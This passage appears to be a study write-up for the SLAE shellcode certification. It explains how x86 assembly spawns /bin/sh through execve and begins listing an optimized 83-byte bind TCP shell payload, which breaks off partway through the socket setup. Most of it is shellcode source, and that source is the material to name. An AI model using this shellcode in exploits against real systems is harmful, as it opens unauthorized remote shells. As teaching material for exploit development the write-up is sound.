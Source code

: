 ## Spawning the shell

The function that executes a program is *Excve()*. In this case a shell (*'/bin/sh'*). 

The arguments needed by this function are the following:

* *filename
* argv[]
* envp[]

![](../Images/27_slae_assignment_1.png)

``man execve``

However, as it is possible to set *argv[]* and *envp[]* to *NULL* without loosing the capability of running a shell, this article just explains how to configure the **filename* argument.

The code for this section is as follows:

````
; Executing a shell
push edx                ;loads NULL terminator
push long 0x68732f2f    ;loads 'hs//'
push long 0x6e69622f    ;loads 'nib/'
mov ebx,esp             ;saves the pointer to '/bin//sh'
mov ecx,edx             ;loads NULL and edx still contains NULL
mov al,0x0b             ;configures eax for syscall - execve
int 0x80                ;executes execve('//bin/sh',NULL,NULL)
````
``Assembly code for executing a shell``

## Improving the Size 
Right now, shellcode's size is **103** bytes. However, it is possible to optimize this size by grouping similar parts of code in functions that will be called multiple times, and by tricking some parts to save space.

This way, the optimized code size is **83** bytes and the code is the following.

````
; Filename:   shell_bind_tcp.nasm
; Author:     Samuel Dugo
; SLAE-ID:    SLAE-1376
; Size:       83 bytes
; Purpose:    Assignment #1 of SLAE certification. This shellcode creates a bind tcp shell.

global _start			

section .text
_start:
	; Creating a TCP socket
	cdq			;doubles eax and stores result on eax & edx (0)
	; socket call requires socket(AF_INET,SOCK_STREAM,0)
	push edx		;sets socket.protocol = 0
	push 0x1
	pop ebx			;ebx now is 0x1 to declare SYS_SOCKET function on sys_socketcall
	push ebx		;sets socket.type = 1 = SOCK_STREAM
	push 2			;sets socket.domain = 2 = AF_INET
	; sys_socketcall requires ecx--> args (loaded on esp), ebx --> SYS_SOCKET, eax --> 0x66
	push 0x66		
````
